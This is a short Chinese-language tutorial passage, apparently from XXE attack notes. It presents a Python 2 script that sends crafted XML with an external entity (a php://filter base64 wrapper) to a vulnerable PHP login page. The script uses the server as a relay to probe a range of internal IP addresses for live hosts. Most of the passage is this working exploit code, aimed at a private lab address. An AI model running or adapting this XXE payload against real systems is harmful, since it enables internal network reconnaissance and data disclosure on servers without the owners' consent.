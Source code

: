 利用python2脚本探测存活主机：

```
# -*- coding: utf-8 -*-
import requests
import base64

#Origtional XML that the server accepts
#<xml>
#    <stuff>user</stuff>
#</xml>


def build_xml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<xml>"""
    xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
    xml = xml + "\r\n" + """</xml>"""
    send_xml(xml)

def send_xml(xml):
    headers = {'Content-Type': 'application/xml'}
#   http://192.168.202.1/xxe/php_xxe/doLogin.php 就是存在xxe的php网址
    x = requests.post('http://192.168.202.1/xxe/php_xxe/doLogin.php', data=xml, headers=headers, timeout=5).text
    coded_string = x.split(' ')[-2] # a little split to get only the base64 encoded value
    print coded_string
#   print base64.b64decode(coded_string)
for i in range(129, 135):
    try:
        i = str(i)
        #此处填写网段
        ip = '192.168.202.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
        continue
```

结果，红框中的就是存在主机：

![img](XXE.assets/modb_20211021_1bd87bd8-3260-11ec-b086-fa163eb4f6be.png)
